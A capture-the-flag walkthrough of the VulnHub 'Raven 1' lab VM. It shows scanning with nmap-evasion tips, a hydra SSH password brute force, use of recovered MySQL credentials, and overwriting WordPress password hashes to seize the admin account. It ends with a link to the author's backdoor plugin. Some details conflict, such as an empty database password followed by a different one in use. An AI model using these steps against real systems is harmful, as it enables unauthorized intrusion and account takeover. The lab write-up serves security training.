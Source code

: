 ```yaml
---
title: Raven 1
author: alex
date: Tue 23 Jan 11:15:48 CEST 2024
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2024-01-23-raven-1-walkthrough/
---
```


Today I'm hacking into **Raven 1**. This VM is a **WordPress** website that we will be taking over through **MySQL**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining admin access

## Tools Used

- Netdiscover
- Nmap
- Dirb

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.13.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:b9:a6:34      1      60  PCS Systemtechnik GmbH                                          
 192.168.1.57    08:00:27:f0:a8:9f      1      60  PCS Systemtechnik GmbH       
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.57
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT      STATE SERVICE VERSION
 
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40318/udp6  status
|   100024  1          47114/tcp   status
|   100024  1          52052/udp   status
|_  100024  1          58944/tcp6  status

47114/tcp open  status  1 (RPC #100024)

MAC Address: 08:00:27:F0:A8:9F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 199.638 days (since Thu Jul  6 21:57:36 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Before we open the browser, we should modify the file */etc/hosts* to add a line to make the IP point to **raven.local** like this:



Let's open the browser and search for **raven.local**. We find a web page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `dirb`: `sudo dirb http://192.168.1.57/`. And we find a couple of interesting directories: `/wordpress/` and `/wordpress/wp-admin/`. If we look around the blog, we can see a user publishing under the name **michael**.

Let's try to brute force SSH: `sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.57 -s22 -I ssh -v`

And we get a password: `michael:michael`.

Once inside, let's download **Linux Exploit Suggester** from our own Apache server. Now, if we run it, we can see some hardcoded credentials:

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-rw-rw- 1 www-data www-data 3134 Aug 13  2018 /var/www/html/wordpress/wp-config.php                              
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', '');
define('DB_HOST', 'localhost');
```

So, let's run MySQL to try to get some creds! `mysql -u root -p` and when prompted for a password: `R@v3nSecurity`. Once inside the console, let's see the databases:

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)
```

OK, let's open `wordpress` databse:

```bash
mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)
```

And now, let's dump all the info in the table `wp_users`:

```bash
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BCyo7B9rkxgGPHpOuSInX8KE1izjh6. | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055   | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

Here, I have already changed `steven`'s password to 1234 hashed with MD5. So, let's change `michael`'s password as well: `update wp_users set user_pass=MD5('1234') where ID=1;` And, if we dump the table aganin:

```bash
mysql> update wp_users set user_pass=MD5('1234') where ID=1;
Query OK, 1 row affected (0.03 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | 81dc9bdb52d04dc20036dbd8313ed055 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055 | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

![WP Login](VirtualBox_Kali_23_01_2024_11_37_38.png)

Let's go back to `/wordpress/wp-login` and try to login using `michael:1234`. And voilà! Now we have taken control over the website with admin privileges. 

![WP Admin](VirtualBox_Kali_23_01_2024_11_38_00.png)

The CTF ends here but, why don't you play around uploading my backdoor plugin? **[Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/)** yo can find it!
